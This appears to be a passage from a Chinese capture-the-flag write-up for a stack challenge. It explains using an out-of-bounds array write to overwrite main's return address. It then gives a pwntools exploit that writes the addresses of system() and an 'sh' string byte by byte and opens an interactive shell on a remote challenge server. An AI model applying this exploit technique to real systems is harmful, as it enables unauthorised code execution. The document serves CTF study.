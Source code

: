 ![](截图\12.4.png)

3. 分析得知，利用数组越界，将主函数的返回值改成我们需要前往的地址即可，计算主函数返回位置距离数组的偏移为多少，在漏洞处下断点，调试运行，得到EBP地址(栈基地址)，再单步运行到函数结束，找到栈顶地址，偏移值0xFFCF124C-0xFFCF11C8 = 0x84

**exp**

地址为小端存储，而且是char型(一个字节)

```python
from pwn import *
p = remote('111.198.29.45','30125')

offset = 0x84
system_addr = [0x50,0X84,0X04,0X08]
sh_addr = [0x87,0X89,0X04,0X08]

p.sendlineafter("you have:",'1')
p.sendlineafter("your numbers",'1')
p.recvuntil("5. exit")

def change(offset,value):
	p.sendline('3')
   	p.sendlineafter("which number to change:",str(offset))
   	p.sendlineafter("new number:",str(value))
   	p.recvuntil("5. exit")

for i in range(4):
	change(offset+i,system_addr[i])
offset += 8
for i in range(4):
	change(offset+i,sh_addr[i])

p.sendline('5')
p.interactive()
```
